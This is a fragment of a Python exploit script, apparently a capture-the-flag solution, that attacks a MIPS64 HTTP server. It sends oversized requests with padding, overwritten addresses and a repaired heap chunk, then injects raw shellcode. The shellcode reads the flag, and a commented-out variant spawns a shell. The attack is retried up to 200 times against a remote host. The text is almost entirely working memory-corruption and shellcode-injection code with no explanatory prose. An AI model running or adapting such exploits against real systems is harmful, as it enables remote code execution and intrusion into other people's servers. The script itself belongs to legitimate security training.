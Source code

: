 ```python
	req = req.ljust(0xf0,"A")
	# pause()
	p.send(req)
	# pause()
	# orw
	sc = "\x3c\x0d\x2f\x66\x35\xad\x6c\x61\xaf\xad\xff\xf8\x3c\x0d\x67\x00\xaf\xad\xff\xfc\x67\xa4\xff\xf8\x34\x05\xff\xff\x00\xa0\x28\x2a\x34\x02\x13\x8a\x01\x01\x01\x0c"
	sc += "\x00\x40\x20\x25\x24\x06\x01\x00\x67\xa5\xff\x00\x34\x02\x13\x88\x01\x01\x01\x0c"
	sc += "\x24\x04\x00\x01\x34\x02\x13\x89\x01\x01\x01\x0c"

	# getshell
	# sc =  "\x3c\x0c\x2f\x2f\x35\x8c\x62\x69\xaf\xac\xff\xf4\x3c\x0d\x6e\x2f\x35\xad\x73\x68\xaf\xad\xff\xf8\xaf\xa0\xff\xfc\x67\xa4\xff\xf4\x28\x05\xff\xff\x28\x06\xff\xff\x24\x02\x13\xc1\x01\x01\x01\x0c"

	payload = "A"*0xf30
	payload += p64(0x000000012001a250)+p64(0x000000120012400)
	# remain 0x179 byte
	
	payload += p64(0x1200018c4)+"D"*(0x179-8)
	p.send(payload)
	p.recvuntil("404 Not Found :(",timeout=1)
	
	# pause()
	

	req = """GET /index \r
Connection: no\r
Content-Length: 4095
\r\n\r
"""
	req = req.ljust(0xf0,"\x00")
	p.send(req)
	# pause()
	payload = "\x00"*0xa88
	# fix the chunk
	payload += p64(0) + p64(21)
	payload += "\x00"*(0xf40-0xa98)
	# remain 0x179 byte
	
	payload += p64(0x00000001200134c0)
	payload += "\x00"*0x20+sc+"\x00"*(0x179-0x28-len(sc))
	
	p.send(payload)
	try:
		p.recvuntil("404 Not Found :(",timeout=1)
		flag = p.recvuntil("}",timeout=1)
		if flag != '' :
			info(flag)
			pause()
	except:
		p.close()
		return
	p.close()
	
if __name__ == "__main__":
	for i in range(200):
		try:
			main(args['REMOTE'])
		except:
			continue          
```

